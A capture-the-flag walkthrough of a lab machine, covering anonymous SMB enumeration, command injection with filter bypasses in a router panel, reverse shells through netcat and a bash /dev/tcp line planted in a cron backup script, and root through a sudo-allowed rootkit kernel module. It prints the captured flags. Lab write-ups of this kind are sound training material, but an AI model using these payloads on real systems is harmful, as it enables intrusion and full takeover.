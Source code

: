```yaml
---
sticker: emoji//1fab6
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got anonymous login enabled at `smb`, let's check it out:


```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423162152.png)

We got a file, let's get it and view the contents:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423163528.png)


Let's begin exploitation


# EXPLOITATION
---

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b      # URL-encoded ; (semicolon)
%26      # URL-encoded & (ampersand)
%7c      # URL-encoded | (pipe)
%0a      # URL-encoded newline (\n)
%09      # URL-encoded tab (space bypass)
%20      # URL-encoded space
+        # Often treated as a space in form data
${IFS}   # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423164854.png)

If we check our listener:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory at `~/backup` (likely `/home/www-data/backup` since it's owned by `www-data`).
    
2. Copies **all files** from `/home/athena/notes/*` into the backup directory.
    
3. Zips the backup into `notes_backup.zip`.
    
4. Deletes all `.txt` and `.sh` files in `/home/athena/backup/`.
    
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423171008.png)


This rootkit refers to something called `Diamorphine`, let's check the repo:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250423175116.png)

